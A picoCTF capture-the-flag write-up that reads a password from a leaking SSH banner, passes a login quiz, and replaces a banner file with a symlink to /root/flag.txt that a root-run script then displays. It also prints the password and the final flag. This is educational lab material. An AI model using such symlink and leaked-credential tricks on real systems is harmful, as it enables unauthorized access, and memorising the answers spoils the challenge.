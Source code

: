# dont-you-love-banners

## Description

Can you abuse the banner?
The server has been leaking some crucial information on tethys.picoctf.net 63223. Use the leaked information to get to the server.

To connect to the running application use nc tethys.picoctf.net 49837. From the above information abuse the machine and find the flag in the /root directory.

## Hints

- Do you know about symlinks?
- Maybe some small password cracking or guessing

## Solution

This is one of the most exciting CTFs I have ever solved. first, let's see what we can get from tethys.picoctf.net 63223 .

```shell
nc tethys.picoctf.net 63223

SSH-2.0-OpenSSH_7.6p1 My_Passw@rd_@1234
```

Great! we got the password from this leaking server. so let's use it to connect to the second server.

```shell
nc tethys.picoctf.net 49837
```

the server will ask you several questions to let you in. The answers are as follows:

```cmd
*************************************
**************WELCOME****************
*************************************

what is the password?
My_Passw@rd_@1234

What is the top cyber security conference in the world?
def con

the first hacker ever was known for phreaking(making free phone calls), who was it?
John Draper
```

now you're in! let's do a ```ls -la```.

```shell
player@challenge:~$ ls -la
total 20
drwxr-xr-x 1 player player   20 Mar  9 16:39 .
drwxr-xr-x 1 root   root     20 Mar  9 16:39 ..
-rw-r--r-- 1 player player  220 Apr  4  2018 .bash_logout
-rw-r--r-- 1 player player 3771 Apr  4  2018 .bashrc
-rw-r--r-- 1 player player  807 Apr  4  2018 .profile
-rw-r--r-- 1 player player  114 Feb  7 17:25 banner
-rw-r--r-- 1 root   root     13 Feb  7 17:25 text
```

let's see what's inside the banner and text:

```shell
player@challenge:~$ cat banner
*************************************
**************WELCOME****************
*************************************
```

```shell
player@challenge:~$ cat text
keep digging
```

so we need to go deeper. remember that the question specified that we need to find the flag in the /root directory.

```shell
cd /root
```

```shell
ls
flag.txt  script.py
```

looks like we found the flag. let's open it.

```shell
cat: flag.txt: Permission denied
```

As you can see, we need root access to open the file. but worry not! there is another way to get to the flag without root privilege!

look back at the hints:
> Do you know about symlinks?

it seems the challenge is suggesting you create a symbolic link (symlink) to flag.txt that you can access without root privileges.

but where should we link it to? the challenge suggests that we need to abuse the banner somehow. so let's give it a try.

```shell
mv banner banner_backup
ln -s /root/flag.txt banner
```

read this part carefully:
**Any process that reads the banner as your user and displays its contents could potentially display the contents of flag.txt instead if it follows the symlink.**

but which process can do that for us? what about script.py? let's look at its contents:

```shell
cat script.py 
```

```py
import os
import pty

incorrect_ans_reply = "Lol, good try, try again and good luck\n"

if __name__ == "__main__":
    try:
      with open("/home/player/banner", "r") as f:
        print(f.read())
    except:
      print("*********************************************")
      print("***************DEFAULT BANNER****************")
      print("*Please supply banner in /home/player/banner*")
      print("*********************************************")

try:
    request = input("what is the password? \n").upper()
    while request:
        if request == 'MY_PASSW@RD_@1234':
            text = input("What is the top cyber security conference in the world?\n").upper()
            if text == 'DEFCON' or text == 'DEF CON':
                output = input(
                    "the first hacker ever was known for phreaking(making free phone calls), who was it?\n").upper()
                if output == 'JOHN DRAPER' or output == 'JOHN THOMAS DRAPER' or output == 'JOHN' or output== 'DRAPER':
                    scmd = 'su - player'
                    pty.spawn(scmd.split(' '))

                else:
                    print(incorrect_ans_reply)
            else:
                print(incorrect_ans_reply)
        else:
            print(incorrect_ans_reply)
            break

except:
    KeyboardInterrupt
```

It's loading the banner each time we send a request to log in to the server, which is exactly what we want.

Since we don't have execute permission for script.py and it's owned by root, we won't be able to run it directly. therefore, we open another tab in the terminal and connect to the server one more time so that script.py will be executed:

flag: **picoCTF{b4nn3r_gr4bb1n9_su((3sfu11y_218ef5d6}**

And there you go.

Happy hacking!
